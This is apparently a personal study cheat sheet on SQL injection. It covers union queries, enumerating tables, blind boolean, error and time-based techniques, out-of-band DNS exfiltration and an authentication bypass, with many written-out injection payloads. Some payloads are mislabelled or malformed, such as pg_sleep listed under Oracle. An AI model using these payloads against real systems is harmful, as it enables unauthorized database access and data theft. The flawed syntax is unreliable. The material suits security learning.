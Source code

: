 # SQL Injection

![sql-inection.png](SQL%20Injection%20abe4fa45ca9b43d4a6f35a4429d816b8/sql-inection.png)

## what is SQL injection

in this vulnearabilty the malicious sql statement will be inject by the attacker to compromise the database or server

## where to find

- see the parameter were the client send the request in form GET POST and we use `' , \\ ) " "'` etc to manipulate user input and break query.
- some site use filters to validate client input so we use URL encoded payloads

## union Query

for successfully execution union query  we must meet the no. of columns returning

## find number of columns vulnerable to SQL I

1. use order by 1 (integer ) and increment until error goes on
this will give us the number of columns that are returning
2. or another method is UNION Select NULL,NULL -- "if number of null DOESN'T match then DB gives error"
3. some times we need to put UNION select 1,1,1,1,1,1 —+ this may be work.

### note for Oracle Database

always use **From Dual --** in select query because it is the builtin table in oracle.

## find the column which gives us the string value in return

```
Query= 'UNION SELECT NULL,"A"+--+'

```

OR

```
query = ' UNION SELECT "A",NULL --+'

```

(if returns our string value in any columns that is data retrival point we can say)

## find DataBase Type and Version

[Untitled](SQL%20Injection%20abe4fa45ca9b43d4a6f35a4429d816b8/Untitled%20Database%206a87758dc5f946f7a93e84d50728f631.csv)

## listing content of DB

### Listing tables

```
Query= 'information_schema.tables'

```

(list out the table names in the database)

### listing columns

```
Query= ' Select * from information_schema.columns Where table_name="table name we know" '

```

***NOTE:  always use + instead of (space)***

### For Oracle DataBase

**For tables**

```
Query= 'Select * from all_tables '

```

**For columns**

```
Query= 'Select * from all_tables_columns where table_name="table name"'

```

## String Concation

***used for concatenation multiple string in the single string***

[Untitled](SQL%20Injection%20abe4fa45ca9b43d4a6f35a4429d816b8/Untitled%20Database%20bfd6b6a981464e538791c88171ef717e.csv)

## Sub-string or retrieve part of the string

[Untitled](SQL%20Injection%20abe4fa45ca9b43d4a6f35a4429d816b8/Untitled%20Database%20fb0756b92b134bcd8c161b8c3f79915a.csv)

## Comments in SQL

[Untitled](SQL%20Injection%20abe4fa45ca9b43d4a6f35a4429d816b8/Untitled%20Database%202bafb624241a472c95ed3b7c52996ed5.csv)

# Blind sql injection vulnerability

### how to exploit

1. change logic of the Query to trigger detectable difference
2. trigger time delay
3. trigger out of band network interaction

### using conditional Response

```sql
Query = ' xyz AND "1"="1'

```

**if get response than xyz if true other wise it DIDN'T get response from server**    or

```sql
Query = ' xyz AND "1"="2'

```

### inducing conditional Response by Triggering SQL Error

```sql
Query = 'xyz AND ( Select CASE WHEN (1=2) Then 1/0 Else "a" END)="a'

```

**if condition is true server gives us the error if false
coudnt get error**

### for Oracle Data base

```sql
Query= 'xyz || (select case when(1=1) Then To_char(1/0) Else '' END From DUAL \\|\\| '

```

### exploit BY Generating Delay

```sql
query = '; if (condition true) waitfor Delay '0:0:10:'+--+'

```

gives 10 second delay in response if condition true else DIDN'T delay in response

### for oracle DB

```sql
Query = '|| pg_sleep(delay in seconds)+--+'

```

### exploit using OUt of band

in this append data in the form of subdomain in our domain and make a DNS lookup
that will reflect in our network traffic and that way we can extract data.
we also use burp collaberator

# 2nd Order SQL Injection

### it happens when our input stored in the application and then later handling different HTTP request the app retrieve stored data and our sql query is executed and we successfully u injected our payload in the server and also executed our SQL Query.

- Using the string `\xBF'` (URL-encoded as `%bf%27`), it's possible to get a single quote that will not get escaped properly. It's therefore possible to inject an always-true condition using `%bf%27 or 1=1 --` and bypass the authentication.